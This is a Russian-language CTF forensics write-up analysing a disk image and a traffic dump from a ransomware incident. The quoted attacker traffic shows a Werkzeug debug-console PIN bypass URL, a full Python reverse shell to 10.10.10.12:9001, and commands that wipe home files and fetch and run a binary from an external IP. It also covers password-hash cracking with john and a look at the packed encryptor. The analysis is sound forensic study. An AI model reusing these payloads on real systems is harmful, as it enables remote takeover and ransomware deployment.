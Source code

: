 # Начало

## Изучение диска

Сначала я увидел `image.img` и `dump.pcapng` (на кали).

Сразу я решил открыть `image.img` через `testdisk` и скопировал себе в папку `image/` некоторые директории из корня:
`bin.usr-is-merged/`, `home/`, `media/`, `opt/`, `root/`, `tmp/`, `etc/`, `lib.usr-is-merged/`, `mnt/`, `proc/`, `sbin.usr-is-merged/`, `var/`

Сразу обратил внимание, что в `opt/` есть Addition для VirtualBox (эта информация не пригодилась)

Далее я обратил внимание на содержимое `/home/ioal/`. Там была папка `app/`, внутри которой вроде было приложение в докере, но все файлы оканчивались на `.enc` и внутри ничего не было понятно

## Запуск системы

После этого я решил запустить эту систему через

```
qemu-system-x86_64 \
 -m 4096 \
 -drive format=raw,file=image.img \
 -cpu host \
 -smp 6 \
 -machine type=q35,accel=kvm
```

Внутри была Ubuntu 24.04.1 LTS (Noble Numbat) и единственный аккаунт `ioal`

## Попытка входа

Пароль от него я не знал, поэтому решил скопировать себе `/etc/password` и `/etc/shadow`

Я прописал `fdisk --list image.img` и узнал оффсет раздела с убунтой - `4096` (`4096 * 512 = 2097152`)

Далее я создал папку `/mnt/tmp` (на кали) и прописал `sudo losetup --offset 2097152 /dev/loop667 image.img` и `sudo mount /dev/loop667 /mnt/tmp`

Таким образом я скопировал себе `/etc/password` и `/etc/shadow` и попытался узнать пароль от `ioal` с помощью `john`, но, к сожалению, не вышло (остановил проверку хеша на 58.1% на вордсете `rockyou.txt` (в кали `/usr/share/wordset/rockyou.txt.gz` распаковал через `gunzip` в `/usr/share/wordset/rockyou.txt`))

Тогда я просто решил `sudo chroot /mnt/tmp/` и через `useradd qwerty`, `passwd qwerty` создал себе пользователя, которому через `usermod qwerty -aG sudo` выдал доступ к `sudo` (я потом еще пожалел о том, что сразу не создал `/home/qwerty`, потому что файловый менеджер уничтожил мне виртуалку сообщениями об ошибке)

Я заметил, что хост называется `fileshare`, а так же его айпи (`ip a`):
- enp0s2: `10.0.2.15/24` (DNS `10.0.2.3`)
- br-4d2c7d1f6f87: `172.18.0.1/16`
- docker0: `172.17.0.1/16`

В `/root/.bash_history` я обнаружил следы, вероятно, организаторов:
```
cd nto-forensics/
ls
cp -r project /home/ioal/app
cd /home/ioal
ls
cd app
ls
cd ../
chown -h
chown --help
chown -hR ioal ./app
ls -al
exit
cd nto-forensics/
ls
ls -al
cd ../
```

И заметил, что в `/home/ioal/` нет никаких файлов

## Создание лога журнала

Дальше я сделал себе свой `system.log` при помощи `sudo journalctl --no-tail > /home/qwerty/main.log`, после чего срезал его до `/home/qwerty/prev.log` (без запуска 26 марта и позже, т.е. только 16 января и 22 января)

Я очень долго копался в логах журанала, но ничего толкового так и не нашел (нашел пару выключений при помощи кнопки выключения, несколько резких выключений, действия AppArmor'а (обычно над фаерфоксом) и всякое другое)

# Продолжение

После всего этого я устал и решил наконец открыть `dump.pcapng` (на кали)

Сначала я вслучайную нажимал на пакеты и в какой-то момент обнаружил в TCP DATA строку
```
root@7a5a67189bc9:/app#
```

И понял, что надо просто просмотреть все пакеты и оценить находки

## Действия в дампе трафика

Последовательно переключая пакеты я понял, что:

Все проделки идут от `10.10.0.12` через `10.10.10.3` (просто ретрансляция) на `172.18.0.3`

Как помнится по айпи на хосте, `172.18.0.0` - это мост докера (значит `172.18.0.3` - это сам сервис)

В докере был запущен python сервис, у которого был путь /console, доступ к которой получил злоумышлиник (`10.10.10.12` через `10.10.10.3`) и нашел там "SECRET"="yqqPfQiFZmXsmnZQYMPF" в разделе <script> в теле HTML

Далее злоумышлиник подобрал url так, что смог обойти пин-код при помощи этого secret'а
```
GET /console?__debugger__=yes&cmd=pinauth&pin=123-456-789&s=yqqPfQiFZmXsmnZQYMPF
```
и получил доступ к python консоли, в которую вписал реверс-шелл
```
/console?&__debugger__=yes&cmd=import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.10.12%22%2C9001))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF
```
Команда реверс-шелла:
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.12",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```

И, получил доступ к `root` в докере при помощи `ls /dev`, 'mount /dev/sda2 /mnt`, `cd /mnt/home`

Потом прописал эти команды:
```
cd ioal
rm .*
cd ../
cd ioal
wget http://81.177.221.242:8125/app
```
`rm .*` удалил все файлы в домашней директории, а `wget` пожаловался на то, что директория `app` уже есть (в ней был сервис-докер)
```
ls
cd ../
wget http://81.177.221.242:8125/app
./app
chmod +x app
./app
exit
```

С помощью этих команд злоумышленник поднялся в `/home` и запустил шифровальщик

При запуске этот `app` несколько раз написал
```
CUSTOM_write found, patched.
ok
```
И затем
```
Encrypting .//app: Encrypting .//ioal/app/docker-compose.yml: Encrypting .//ioal/app/server/requirements.txt: Encrypting .//ioal/app/server/wait-for-postgres.sh: Encrypting .//ioal/app/server/Dockerfile: Encrypting .//ioal/app/server/templates/index.html: Encrypting .//ioal/app/server/__init__.py: Encrypting .//ioal/app/server/assets/css/listr.pack.css: Encrypting .//ioal/app/server/assets/css/custom.css: Encrypting .//ioal/app/server/assets/css/jquery.filer.css: Encrypting .//ioal/app/server/assets/fonts/fontawesome-webfont.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.ttf: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer-preview.html: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.svg: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.eot: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.cs
```

Таким образом все оставшиеся файлы в домашней директории и сам `app` были зашифрованы

# Решение задач

Я просто начал выписывать соответствующие пакеты + их содержимое и их номер + время

Когда я дошел до `app` я решил погуглить `"CUSTOM_write found"` и нашел единственную ссылку на проект на гитхабе ([linux-anti-debugging](https://github.com/tobyxdd/linux-anti-debugging/)), который использовал `ptrace` для обфускации

## Задание 2-6

Как настало время решать 2-6 я скачал `app` себе на кали при помощи таковой функции в wireshark'е (файл -> экспортировать объекты -> HTTP -> text/plain app)

Когда я решил открыть его в `ghidra`, я увидел в конце текст, который потом еще раз увидел при помощи `strings ./app`:
```
...
PROT_EXEC|PROT_WRITE failed.
_j<X
$Info: This file is packed with the t
Z executable packer http://upx.sf.net $
$Id: t
Z 4.24 Copyright (C) 1996-2024 the t
Z Team. All Rights Reserved. $
_RPWQM)
j"AZR^j
PZS^
/proc/self/exe
...
```

Этот `upx` был скачан на кали, но когда я использовал `upx -d ./app` он мне сказал, что не в его кондициях распаковать этот файл

Тогда я решил поэкспериментировать с этим приложением и пошифровал несколько тестовых файлов, но, к сожалению, не в моих силах было разобрать алгоритм шифрования

Проконсультировавшись с `gemini-2.5-pro-exp-03-25`, мне было предложено использовать `hexdump`, и, хотя данные (след/отпечаток) не совпали с ни одним известным гемини методом шифрования, я увидел сигнатуру `beef dead bade c0fe`, которая присутствовала во всех зашифрованных файлах (пример с `Dockerfile.enc`):

`hexdump ./Dockerfile.enc`
```
0000000 beef dead bade c0fe 2ad6 50f9 b923 a3f6
0000010 8583 09fe 8c9f 3e36 73e0 e4cc 2159 a88f
0000020 eca6 af29 8993 638d b272 1cac 77fc 79a3
0000030 cfc2 674c 18d8 259c 705b 309b e774 711d
0000040 7f50 8519 9c6b a4e6 f8b4 82b3 4ba0 a875
0000050 7a7f 9f27 e4ca 8e9e b3cf d310 f56d 4fdf
0000060 895b f9fa 0165 e527 9d69 1eb1 5637 155a
0000070 45b0 d999 d4e0 571e 4154 6998 5e5d b671
0000080 3736 70cc b1e8 4307 9b63 377f b983 7e02
0000090 6ab2 3f23 c057 08ab 81c0 3986 5225 acea
00000a0 4fb8 420c 7fb1 b1f1 7e31 38aa 2753 56c6
00000b0 8655 2090 4c4d 362e b94a 13d5 248e 96f6
00000c0 414a 8e69 03db 82f6 4061 1a95 898a bda1
00000d0 b951 98ac cf49 041d e188 5c04 9f32 b3b9
00000e0 c4e8 cb05 fd77 211b fc10 fc47 b35c 87bb
00000f0 7f5e cd64 5aa3 2ded ea50 674e 49f7 69b5
0000100 ac54 4cc9 9cfb 4bcd 7d78 4e34 8a62 a862
0000110 dc5a ee26 b93e cade                    
0000118
```

